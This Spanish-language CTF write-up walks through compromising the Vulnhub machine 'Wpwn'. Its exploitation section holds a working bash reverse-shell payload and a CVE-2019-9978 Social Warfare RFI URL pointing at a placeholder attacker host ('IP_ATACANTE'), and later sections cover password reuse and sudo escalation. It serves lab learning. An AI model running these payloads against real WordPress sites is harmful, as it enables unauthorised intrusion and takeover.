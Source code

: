```yaml
---
layout: single
title: Wpwn - Vulnhub
excerpt: "Para resolver ésta máquina, descubrimos a la hora de la enumeración Web que está corriendo un CMS WordPress el cual enumeramos, así descubriendo qué contiene el plugin Social Warfare, con una versión vulnerable a RFI sin estar auténticado, convirtiendo éste RFI a RCE, para posterior entablarnos una Reverse Shell. Una vez dentro, reutilizamos la contraseña de la DB del CMS para convertirnos en un usuario válido del sistema, y por último, como este usuario nos aprovechamos de los SUDOERS para volvernos ROOT."
date: 16/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Web Enumeration
  - WordPress Enumeration
  - WordPress Plugin Social Warfare < 3.5.3 Exploitation (RFI to RCE)
  - Password Reuse (User Pivoting)
  - Abusing sudoers
  - CVE-2019-9978
---
```

Para resolver ésta máquina, descubrimos a la hora de la enumeración Web que está corriendo un CMS WordPress el cual enumeramos, así descubriendo qué contiene el plugin Social Warfare, con una versión vulnerable a RFI sin estar auténticado, convirtiendo éste RFI a RCE, para posterior entablarnos una Reverse Shell. Una vez dentro, reutilizamos la contraseña de la DB del CMS para convertirnos en un usuario válido del sistema, y por último, como este usuario nos aprovechamos de los SUDOERS para volvernos ROOT.



# PortScan
____

```
# Nmap 7.93 scan initiated Thu Nov 16 12:17:57 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.
Nmap scan report for 192.168.204.169
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:2B:09:A1 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 16 12:18:04 2023 -- 1 IP address (1 host up) scanned in 6.65 seconds
```


# Web Enumeration
____

Hacemos una enumeración de directorios con **"GoBuster"**.
```bash
gobuster dir -u http://192.168.204.169 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

Descubriendo así un directorio existente en el servicio Web con nombre "**/wordpress**"
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116132515.png)

Es decir, qué está corriendo un **CMS** **WordPress** en el servicio web Apache del **:80**

# WordPress Enumeration
____

Echándole un vistazo al código fuente para ver plugins...
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116132740.png)

Vemos que como uno de sus **plugins** tiene el "**Social Warfare v3.5.2**" que sí indagamos sobre posibles vulnerabilidades, encontraremos la vulnerabilidad **CVE-2019-9978** qué podemos llevar a cabo un **RCE** sin estar autenticados en ésta versión de Social Warfare.

[(Click aquí para entrar al PoC del RCE en el Social Warfare v.3.5.2)](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/)

En éste caso, modificaré el payload del **PoC** con una Reverse Shell, como iremos viendo...

1. Creamos en local un "**payload.txt**".
```bash
nano payload.txt
```

Qué como **Payload** para la **Reverse Shell** tendrá este:
```bash
<pre>system('bash -c "bash -i >& /dev/tcp/192.168.x.x/PORT 0>&1"')</pre>
```

2. Nos montamos un servidor en **Python** en la ruta del Payload.
```bash
python3 -m http.server 80
```

3. Nos ponemos en escucha con el puerto que indicamos en el Payload para recibir la Shell.
```bash
nc -nlvp 443
```

5. Usamos la ruta vulnerable al **RCE** del **PoC**, para indicar nuestra IP donde tenemos el servidor montando & el nombre del payload.
```bash
website/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP_ATACANTE/PAYLOAD
```

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116134704.png)


Y recibiríamos nuestra **Reverse Shell**.

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116134947.png)
Ya tan sólo quedaría darle **tratamiento a la TTY**, que sino sabes darle tratamiento te recomiendo [((Leer este POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1 
_____________

Indagando en los recursos **WordPress** qué desde fuera no tenemos acceso, encontraríamos el "**wp-config.php**" qué es donde está la configuración del mismo CMS, y sí le echamos un ojo encontraríamos las credenciales de la DB.

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135220.png)

y viendo los usuarios válidos del sistema en el **Passwd**, encontraríamos el usuario **takis**.
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135351.png)

Por ende, se me ocurre colocar ésta credencial en el usuarios takis.
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135502.png)

Logrando así entrar como **takis**, gracias a una reutilización de contraseña.


# Escalda de Privilegios #2 
____

Sí como **takis**, listamos los permisos **SUDOERS**.
```bash
sudo -l
```
![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135731.png)

Podemos ejecutar cualquier comando como quién sea, es decir, podemos convertirnos en **root** tan fácil como:
```bash
sudo su
```

![](/assets/images/vulnhub-writeup-wpwn/Pasted image 20231116135828.png)
